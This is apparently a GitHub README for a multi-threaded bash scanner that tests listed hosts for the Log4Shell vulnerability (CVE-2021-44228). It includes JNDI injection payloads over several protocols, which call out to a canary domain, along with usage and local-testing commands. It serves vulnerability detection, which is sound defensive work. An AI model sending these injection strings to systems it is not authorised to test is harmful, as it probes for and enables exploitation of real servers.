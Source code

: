 # log4j-scan-turbo (Multi-threaded scanner)
Test for the log4j vulnerability ( CVE-2021-44228 ) across your external footprint.

This is a very fast, multi-threaded, log4j vulnerability tester.

## Details

- Pure bash scanner
- Uses nohup and curl to achieve multiple threads
- Curl configured to use a 3 second client to server maximum and six second total time setting.
- 48 parallel calls at a time
- Covers all jndi protocols
- HTTP GET/POST methods

## Example Use
```
git clone https://github.com/ssstonebraker/log4j-scan-turbo
cd log4j-scan-turbo
sudo ./log4j_CVE-2021-44228_tester.sh <INPUT_FILE> <CANARY_DOMAIN>
```

## Payloads
```
Payloads:
${jndi:ldap://<canary_domain>/a}
${jndi:ldaps://<canary_domain>/a}
${jndi:rmi://<canary_domain>/a}
${jndi:dns://<canary_domain>/a}
${jndi:corba://<canary_domain>/a}
${jndi:iiop://<canary_domain>/a}
${jndi:nis://<canary_domain>/a}
${jndi:nds://<canary_domain>/a}
```
## Methods
HTTP GET and HTTP POST are called on TCP 80/443 for each ip/domain provided in the input file

## Requirements
You will need:
1. An inputfile with a list of IP addresses/domains (one per line)
2. A Canary Token (see below)

### Input File
Your input file should consist of IP address and/or Fully Qualified Domain Names

Example:
```
foo.com
bar.com
10.1.100.50
127.0.0.1:5000
```

### Get a Canary Domain 
1. Browse to https://canarytokens.org/generate#
2. Selection Option "DNS"
3. Input Email Address
4. Input Comment
5. Hit "Create my Canary Token"

<img width="973" alt="image" src="https://user-images.githubusercontent.com/774940/145664156-fee98504-0a18-427c-8213-5f3818864a9a.png">

## False Positives
If you use egress SSL decryption + inspection this script may trigger false positives (as your IDS may perform lookups on the canary token.. thus triggering it).

If this is the case then you are better off running it from a cloud instance that is not being inspected.

## Local Testing
Spin up a docker image of a vulnerable server:
```
docker run --name vulnerable-app -p 555:8080 ghcr.io/christophetd/log4shell-vulnerable-app
```
 
Use the script to test locally:
```
echo "localhost:555" > ips.txt
sudo ./log4j-scan-turbo.sh ips.txt <canary_domain>
```





